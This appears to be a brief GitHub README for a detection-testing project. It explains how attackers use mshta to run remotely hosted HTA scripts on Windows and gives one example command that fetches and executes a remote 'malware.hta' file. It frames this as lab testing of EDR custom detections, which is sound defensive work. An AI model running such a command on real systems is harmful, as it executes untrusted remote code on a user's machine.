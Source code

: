 # HTA_calc
Testing malicious remote HTA script execution.

Threat Actors can run HTA scripts on windows devices that are remotely hosted by use of mshta.

Example Command:
```
mshta https://githubusercontent.com/.../malware.hta
```

The intent of this content is to allow for testing in a lab enviornment with EDR deployed to confirm that custiom detections are working as intended.
